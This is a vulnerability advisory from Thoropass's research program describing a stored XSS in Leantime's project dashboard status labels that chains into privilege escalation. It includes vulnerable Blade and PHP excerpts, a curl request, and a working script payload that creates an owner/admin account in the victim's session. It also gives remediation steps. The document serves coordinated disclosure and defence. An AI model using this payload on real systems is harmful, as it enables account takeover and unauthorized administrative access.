






<div align="center">
  <a href="https://www.thoropass.com/" target="_blank" rel="noopener noreferrer">
    
  </a>
  <br><br>
  <a href="https://www.thoropass.com/talk-to-an-expert" target="_blank" rel="noopener noreferrer">
    
  </a>
  <a href="https://www.linkedin.com/company/thoropass/" target="_blank" rel="noopener noreferrer">
    
  </a>

  <h1>Leantime: Stored XSS in Project Status Labels Enables Privilege Escalation to Owner</h1>

  <p>🔐 <strong>Thoropass Vulnerability Research Program</strong> 🧪</p>
</div>

<div align="center">
  
  
  
</div>


---

## Advisory Information

| &nbsp; | &nbsp; |
|:---|:---|
| **Researcher** | Alvin Ovando on behalf of [Thoropass](https://thoropass.com) |
| **Product** | [Leantime](https://github.com/Leantime/leantime) - Open-source, self-hosted project management system for goals, milestones, tickets, and Kanban boards, aimed at small teams and startups. |
| **Affected Version** | `<= 3.9.8` (and earlier sharing this template). |
| **Vulnerable Endpoint (Sink)** | `app/Domain/Dashboard/Templates/show.blade.php:223` and `:230` - the project dashboard renders customized ticket status-label `class` and `name` with Blade's unescaped `{!! !!}` output. |
| **Source Endpoint** | `POST /projects/showProject/{projectId}` (`saveStatusLabels`) - stores the status-label `name` / `class` verbatim. |
| **Escalation Endpoint** | `POST /users/newUser` - accepts a client-controlled `role` with no server-side ceiling and no CSRF token. |
| **Vulnerability Type** | CWE-79: Improper Neutralization of Input During Web Page Generation (Stored Cross-Site Scripting); CWE-268: Privilege Chaining. |
| **CVSS v3.1** | `8.7 (High)` - `CVSS:3.1/AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:N` |
| **CVE ID** | Pending (CVE review in progress) |

## Vulnerability Summary

An authenticated stored cross-site scripting (XSS) vulnerability in the project dashboard's ticket status-label rendering allows a user with project editor rights to store JavaScript in a customized status-label name or class. The script executes in the browser session of every user who views that project's dashboard, including managers, owners, and admins.

Because the reachable user-creation endpoint enforces no server-side role ceiling and CSRF protection is disabled, this chains to privilege escalation (**an editor obtaining an owner/admin account**) and full application compromise.

## Technical Analysis

➤ **Sink:** the project dashboard renders customized ticket status labels without output encoding.

`app/Domain/Dashboard/Templates/show.blade.php:230` renders the label name as raw element text:

```php
<span class="text">{!! $statusLabels[$row['status']]['name'] !!}</span>
```

`app/Domain/Dashboard/Templates/show.blade.php:223` renders the label class inside a double-quoted attribute (attribute-breakout is possible):

```php
class="dropdown-toggle f-left status {!! $statusLabels[$row['status']]['class'] !!}"
```

Both use Blade's unescaped `{!! !!}` output.

➤ **Source:** the label name and class are stored verbatim. `app/Domain/Tickets/Services/Tickets.php:159` (`saveStatusLabels`) builds the status array directly from request parameters, sanitizing only the numeric label key, never the values:

```php
$labelKey = filter_var($labelKey, FILTER_SANITIZE_NUMBER_INT);
$statusArray[$labelKey] = [
    'name'  => $params['label-'.$labelKey] ?? '',
    'class' => $params['labelClass-'.$labelKey] ?? 'label-default',
];
```

The retrieval path (`getStatusLabels` / `getStateLabels`) returns the unserialized values unchanged, and no compensating control (`htmlspecialchars`, `htmLawed`, `escapeMinimal`) is applied on either the store or the render path.

➤ **Escalation:** `app/Domain/Users/Services/Users.php:1399` accepts `role` from the request with no server-side ceiling, and CSRF is not enforced on the create path (global `VerifyCsrfToken` is commented out at `app/Core/Http/HttpKernel.php:64`).

### Proof of Concept

**➤ Prerequisites:** an account with project editor rights (`TicketsPermissions::EDIT`), with the target project active in the session (open it once so `currentProject` is set).

**➤ Step by Step:**

1. As the editor, save a status label whose name carries the payload. `saveStatusLabels` rebuilds the whole label set from `labelKeys[]`, so include all existing status keys to avoid clearing the others (an unset label 500s the dashboard via an undefined index at `show.blade.php:230`):

```bash
curl -s -i -X POST "http://localhost:8080/projects/showProject/[PROJECTID]" \
-H "Cookie: leantime_session=[SESSION_COOKIE]" \
--data-urlencode "submitSettings=1" \
--data-urlencode "labelKeys[]=3" \
--data-urlencode 'label-3=' \
--data-urlencode "labelClass-3=label-info" \
--data-urlencode "labelType-3=NEW" \
--data-urlencode "labelSort-3=1"
```

> This will clear all statuses; you don't have to run it with curl, you can go directly to the project's To-Do Settings.

2. Make sure there's a ticket in the project overview.



It's important to note that when we modified a ticket's status, the dashboard updated immediately, causing the XSS payload to execute as soon as the dashboard loaded. The idea is to modify a status label already used on one of the tickets.

3. Ensure at least one ticket in the project is in the poisoned status (from `NEW` to the XSS payload), then save it.



4. As any project member, load `http://[host]/dashboard/show` for that project. The `alert(document.domain)` fires on page load, confirming stored, cross-user execution.



**➤ Privilege Escalation:**

Payload used:

```html
<script>fetch("/users/newUser",{method:"POST",body:new URLSearchParams({save:"1",user:"p@a.a",role:"50",firstname:"x",lastname:"x",phone:"",jobTitle:"",jobLevel:"",department:"",client:""})})</script>
```

5. Fill the label with the payload.



6. Open the project dashboard to trigger the payload, then verify the DOM on the status element:



7. Verify the user creation - a new owner/admin account has been created in the victim's session:



## Impact

This vulnerability falls under **A03:2021 - Injection** in the [OWASP Top 10](https://owasp.org/Top10/), specifically categorized as **Stored Cross-Site Scripting (XSS)** chained to privilege escalation.

Stored, persistent XSS affecting all Leantime instances on the affected versions. A project editor can store a payload in a per-project ticket status label (name or class) that executes in the browser of every user who opens that project's dashboard, which is the default landing page.

Potential impacts include:

- **Arbitrary JavaScript execution** in the context of every user who views the poisoned project dashboard, including managers, owners, and admins.
- **Privilege escalation**: because the user-creation path enforces no server-side role limit and requires no CSRF token, an editor whose payload is viewed by an owner/admin escalates to owner/admin.
- **Full application compromise**: account takeover, access to all projects and clients, and administrative control.
- **Persistent exploitation**: the payload is stored, so every subsequent view of the dashboard re-fires the attack.
- **Action-in-session**: session cookies are httpOnly, so the primary risk is action-in-session (privilege escalation, data modification).

## Remediation

- HTML-encode status-label `name` and `class` on output. Replace the unescaped `{!! !!}` Blade directives at `show.blade.php:223` and `:230` with the escaped `{{ }}` form, or apply `htmlspecialchars((string) $value, ENT_QUOTES, 'UTF-8')` before rendering.
- Sanitize the label `name` / `class` values on the store path in `saveStatusLabels` rather than only sanitizing the numeric key.
- Enforce a server-side role ceiling on `POST /users/newUser` so a user cannot create an account with a role above their own.
- Re-enable global CSRF protection (`VerifyCsrfToken`) so state-changing requests require a valid token.

## References

- [OWASP Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)
- [OWASP Top 10 - A03:2021 Injection](https://owasp.org/Top10/A03_2021-Injection/)
- [CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html)
- [CWE-268: Privilege Chaining](https://cwe.mitre.org/data/definitions/268.html)
- [MDN Web Docs - XSS Prevention](https://developer.mozilla.org/en-US/docs/Web/Security/Types_of_attacks#cross-site_scripting_xss)

## ⚠️ Disclaimer

The vulnerability was identified through authorized security testing. The proof of concept is provided to help defenders validate their exposure and verify remediation.

Thoropass follows **coordinated vulnerability disclosure (CVD)** principles. Vulnerabilities are reported privately to maintainers, reasonable time is provided for remediation, and public advisories are released after coordination or fix availability.

## About Thoropass
Thoropass delivers enterprise-grade audits with AI-native speed and precision. Designed from day one to integrate auditors, automation, and infosec workflows in a single, closed-loop system, no add-ons, no handoffs.

Our experienced penetration testing team proactively discovers vulnerabilities in web applications, APIs, and infrastructure — helping organizations secure their systems before attackers find weaknesses.

<div align="center">
  <br>

  **Thoropass Vulnerability Research Program**

  <em>Improving ecosystem security through responsible research and disclosure.</em>

  <br><br>
  <a href="https://www.thoropass.com/platform/penetration-testing" target="_blank" rel="noopener noreferrer">
    
  </a>
  <br><br>
  <a href="https://www.thoropass.com/" target="_blank" rel="noopener noreferrer">
    
  </a>
  <a href="https://www.linkedin.com/company/thoropass/" target="_blank" rel="noopener noreferrer">
    
  </a>
</div>

---

<div align="center">
  <br><br>
  <a href="https://www.thoropass.com/talk-to-an-expert" target="_blank" rel="noopener noreferrer">
    
  </a>
</div>
